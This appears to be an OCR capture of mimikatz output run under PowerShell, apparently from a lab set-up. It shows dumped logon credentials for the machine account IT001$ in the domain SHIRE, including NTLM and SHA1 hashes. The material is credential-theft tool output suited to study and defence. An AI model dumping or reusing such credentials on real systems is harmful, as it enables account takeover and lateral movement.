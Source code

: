 ```
	msv :	
	 [00000003] Primary
	 * Username : IT001$
	 * Domain   : SHIRE
	 * NTLM     : 5c03a8bf5d1c76899fbd1ee4178574b8
	 * SHA1     : 1bafcdcc855ae86e06ac39b278243a7990dcb493
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : IT001$
Domain            : SHIRE
Logon Server      : (null)
Logon Time        : 3/11/2019 8:57:43 PM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : IT001$
	 * Domain   : SHIRE
	 * Password : (null)
	kerberos :	
	 * Username : it001$
	 * Domain   : SHIRE.COM
	 * Password : (null)
	ssp :	
	credman :	

mimikatz(powershell) # exit
Bye!
```